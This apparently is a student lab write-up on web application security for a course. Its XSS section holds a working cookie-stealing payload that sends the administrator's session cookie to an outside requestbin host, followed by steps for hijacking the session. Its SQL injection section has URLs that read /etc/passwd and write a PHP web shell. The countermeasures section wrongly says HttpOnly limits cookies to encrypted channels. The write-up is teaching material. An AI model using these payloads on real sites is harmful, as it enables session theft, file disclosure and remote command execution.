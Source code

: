 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comment section the the home page. Indeed, there was no filtering of any kind of HTML charateres of quotes.
This allowed us to inject javascript code in the field to upload a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator looking at the web page.

#### Description of the attack

The command that we insert in the "text" field and used to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments' page, the first source of the image will send his cookie (via the `document.cookie` command) to our requestbin url and be analysed.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is that he will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror`tag of the `<img/>` in case the first source url doesn't lead to a picture file.
All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value of the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comment's text field. 
We can add escaping functions in the back-end source code to encode special HTML characteres. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

- Client-side:

Desactivate javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly so it can't be a solution on the long run.

- Server-side:

HttpOnly: 
One of the things that could be done to prevent cookie stealing could be to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is that we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charateres that could be used to inject code in the input fields.

### Part 2: SQL Injection

http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4

http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22